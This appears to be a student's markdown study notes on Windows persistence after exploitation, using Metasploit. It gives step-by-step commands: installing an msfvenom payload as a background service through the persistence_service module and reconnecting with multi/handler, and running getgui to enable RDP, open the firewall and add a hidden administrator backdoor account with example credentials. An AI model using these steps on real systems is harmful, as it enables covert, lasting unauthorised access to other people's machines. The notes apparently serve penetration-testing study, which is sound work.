   

  

## ==_**Persistence**_==

  

### ==Windows Persistence==

  

- _==Persistence Via Services==_

> Persistence consists of techniques that adversaries use to keep access to system across restart , changed credentials, and other interruptions that could cut off their access . ( when we access to system via exploit some services , what we should do to keep connected to the target system ) , in some cases we need a administrator privis .

  

- _Persistence Via Services_
    
    - `nmap -sV -sS -O <target ip>` ⇒ to scan for open ports and what services are running on this port
    - After we exploit the vuln services and get access to target system
    - `search persistence_service` && `use exploit/windows/local/persistence_service`
    
    > so here this module work as this ⇒ it’s generate a payload using msfvenom and upload it on target system then it’s make a background services with administrator privis to give us access when we want
    
    - `set lport 1234` && `set session <session number >` && `run`
    
    > ==after this the msfconsole give us a msfconsole resources file to clean up all we do==
    
    - _==now if we terminate the session and exit from msfconsole==_ ⇒ `reopen msfconsole` && `use multi/handler` && ==**_set up the exactly same option we enter when we set up a_**== `persistence_service` ⇒ we will see we get access to target system without targeting it .
    
      
    
      
    

  

- ==_Persistence Via RDP_==
    
    > here we will set up a Persistence via creating a backdoor user
    
    - `nmap -sV -sS -O <target ip>` ⇒ to scan for open ports and what services are running on this port
    - After we exploit the vuln services and get access to target system
    - `pgerp explorer` && `migrate <process id >`
    - `run getgui -e -u majd -p hacker_123321` ⇒ what done here is first the metepreter ==_will enable RDP if it’s disable_== , then it ==_will add firewall rule on this rdp port if firewall enable_== , then it ==_will add a new user with cred we entered_== , then it ==_will adding this user to administrator group_== , last thing ==_hiding our backdoor user from login screen_== , so when user back to windows login screen our user will not appear .
    
    > ==after this the msfconsole give us a msfconsole resources file to clean up all we do==
    
    - exit the metepreter && exit from msfconsole ⇒ `xfreerdp /u:majd /p:hacker_123321 /v:<target ip>` ⇒ we will open rdp on target system
    